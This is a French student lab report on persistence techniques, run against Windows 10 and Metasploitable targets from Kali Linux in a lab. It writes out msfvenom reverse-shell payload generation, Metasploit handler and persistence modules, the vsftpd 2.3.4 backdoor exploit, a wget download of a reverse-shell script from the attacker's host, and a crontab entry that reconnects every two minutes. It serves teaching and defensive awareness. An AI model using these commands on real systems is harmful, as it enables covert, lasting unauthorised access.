








# Compte Rendu - TP : Persistance Windows & Linux

## 1. Introduction
Ce laboratoire porte sur la mise en place de mécanismes de persistance sur des environnements Windows et Linux. L'objectif est de maintenir un accès discret et continu à un système compromis après une réinitialisation ou une déconnexion.

## 1. Introduction
Ce laboratoire porte sur la mise en place de mécanismes de persistance sur des environnements Linux. L'objectif est de maintenir un accès discret et continu à un système compromis après une déconnexion ou une réinitialisation.

### Environnement de travail et Outils
* **Machine Attaquante :** Kali Linux
* **Machine Cible :** Windows | Metasploitable
* **Outils utilisés :**
  * **Metasploit Framework (`msfconsole`) :** exploitation de la vulnérabilité initiale (backdoor FTP `vsftpd 2.3.4`).
  * **Python 3 :** stabilisation du shell (TTY) et création du script de reverse shell.
  * **Netcat (`nc`) :** pour l'écoute et la réception des connexions distantes.
  * **Crontab :** automatisation de l'exécution périodique du script pour assurer la persistance.

## 2. Persistance sur Windows
### 2.1 Génération du payload
La première étape consiste à créer un exécutable malveillant (`mentorat.exe`) configuré pour cibler notre architecture et initier une connexion vers notre machine d'attaque.
- **Commande exécutée sur Kali Linux** :
```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.232.131 LPORT=1234 -f exe -o mentorat.exe
```
**Résultat :** Génération réussie d'un payload brut de 7168 octets.


### 2.2 Transfert du payload
Mise en place d'un serveur HTTP temporaire sur la machine d'attaque pour le transfert du fichier `mentorat.exe` vers la cible Windows.
- **Commande sur Kali (serveur) :**
```bash
python3 -m http.server 8080
```


**Action sur Windows 10 (cible) :**
Accès via le navigateur à http://192.168.232.131:8080 et téléchargement du payload dans C:\Labs\.


**Alternative :**
En cas de blocage par le navigateur, utilisation de PowerShell pour le téléchargement direct du payload sans interaction via la navigation web.

**Commande PowerShell (sur Windows 10) :**
```powershell
Invoke-WebRequest -Uri "http://192.168.232.131:8080/mentorat.exe" -OutFile "C:\Users\Public\mentorat.exe"
```
### 2.3 Établissement du listener Metasploit
Configuration d'un écouteur sur la machine d'attaque pour intercepter la connexion inversée (reverse shell) initiée par le payload une fois exécuté sur la cible.

- **Commandes Metasploit :**
```text
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.232.131
set LPORT 1234
exploit
```
- **Résultat :**
établissement réussi de la session meterpreter > dès l'exécution du payload sur la cible Windows 10.


### 2.4 Configuration et exécution du Module de persistance Windows
Afin de s'assurer un accès durable et automatique à la machine cible même après un redémarrage, nous utilisons le module intégré de Metasploit `exploit/windows/local/persistence`.

- **Mise en arrière-plan de la session active :**
```text
background
```
- **Sélection et configuration du module de persistance :**
```text
use exploit/windows/local/persistence
set session 1
set LPORT 1234
run
```


### 2.5 Vérification de la persistance
Test du maintien de l'accès après fermeture de la session initiale pour valider l'automatisme de la reconnexion :

- **Commandes exécutées :**
```text
exit -y
```
Puis, relance de l'écouteur en arrière-plan depuis le terminal :
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.232.131; set LPORT 1234; run -j"
```

- **Résultat :**

Reconnexion automatique de la cible grâce au script et à la clé d'autorun enregistrés dans le système Windows, puis Ouverture instantanée d'une nouvelle session Meterpreter (Meterpreter session 1 opened).

## 3. Persistance sur Linux
### 3.1 Exploitation du service FTP (vsftpd 2.3.4)
Recherche du module d'exploitation correspondant à la vulnérabilité identifiée sur le service FTP de la cible. Une fois la console metasploit lancée, tapez la commande :

- **Commande :**
```text
search vsftpd 2.3.4
```
- **Résultat :** identification du module unique exploit/unix/ftp/vsftpd_234_backdoor classé avec un rang excellent.



### 3.2 Configuration et exécution du module d'exploitation FTP
Chargement du module de la backdoor FTP et définition des paramètres réseau (cible et attaquant) :

- **Commandes :**
```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.131.130
set LHOST 192.168.131.232
exploit
```

- **Résultat :**
    * Déclenchement de la porte dérobée sur le service FTP cible.
    * Obtention d'un accès avec les privilèges maximums (UID: uid=0(root) gid=0(root)).
    * Ouverture réussie d'une session de type Command shell (Command shell session 1 opened).

### 3.3 Stabilisation du shell et accès interactif (TTY)
Une fois la session d'exploitation active, stabilisation du shell brut en un shell TTY interactif complet à l'aide de Python :

- **Commande :**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


- **Résultat :** obtention d'un prompt interactif complet et stable avec les privilèges root (root@metasploitable:/#).

### 3.4 Mise en place de la persistance (Reverse Shell et Crontab)

#### A. Création du script de reverse shell sur l'attaquant (Kali)
Création du fichier Python `revshell.py` configuré pour cibler l'adresse IP de Kali (`192.168.52.128`) sur le port `1234` :

- **Commandes :**
```bash
nano revshell.py
```


#### B. Hébergement du script via un serveur HTTP
Lancement d'un serveur web temporaire sur Kali pour transférer le fichier vers la machine cible :
- **Commandes :**
```bash
python3 -m http.server 8080
```
- **Résultat :** le serveur écoute sur le port 8080, prêt à délivrer le script revshell.py.



#### C. Téléchargement et configuration du script sur la cible
Depuis le shell root de la machine cible (Metasploitable), téléchargement du script hébergé sur le serveur HTTP de l'attaquant et attribution des droits d'exécution :

- **Commandes :**
```bash
cd /root
wget http://192.168.52.128:8080/revshell.py
chmod +x revshell.py
```


#### D. Automatisation de la persistance via une tâche planifiée (crontab)
Ajout d'une règle dans le planificateur de tâches de la machine cible pour exécuter automatiquement le script de reverse shell toutes les deux minutes :

- **Commandes :**
```bash
( sudo crontab -l 2>/dev/null | grep -vF '/root/revshell.py'; echo '*/2 * * * * /usr/bin/python /root/revshell.py' ) | sudo crontab -
```

- **Vérification du crontab :**
```bash
crontab -l
```
- **Résultat :** la tâche */2 * * * * /usr/bin/python /root/revshell.py est enregistrée avec succès, garantissant une reconnexion automatique régulière vers la machine attaquante.



#### E. Test de la persistance (Réception du Reverse Shell)
Mise en écoute sur la machine attaquante pour valider la reconnexion automatique déclenchée par la tâche planifiée :

- **Commande (Kali) :**
```bash
nc -lnvp 1234
```
- **Résultat :** après l'intervalle configuré (2 minutes), une connexion entrante s'établit et un shell root est ouvert sur Kali.


## 4. Conclusion
Ce laboratoire a permis d'explorer de manière concrète les techniques de post-exploitation axées sur la persistance, couvrant à la fois les environnements Windows et Linux.
- D'une part, l'étude des mécanismes sous Windows a mis en lumière l'importance de surveiller les clés de registre de démarrage, les services système et les dossiers de démarrage automatique, qui constituent des vecteurs privilégiés pour maintenir un accès.
- D'autre part, la mise en pratique sur l'environnement Linux (Metasploitable) a démontré l'efficacité des tâches planifiées (crontab) combinées à un script de reverse shell personnalisé en Python. Ce qui souligne la nécessité pour les administrateurs de sécuriser et d'auditer régulièrement ces planificateurs contre les élévations de privilèges et les exécutions non autorisées.

En somme, ce TP souligne la criticité d'une surveillance rigoureuse des journaux d'événements, de l'intégrité des fichiers système et des planificateurs de tâches, tant du point de vue offensif (redteam) que défensif (blueteam).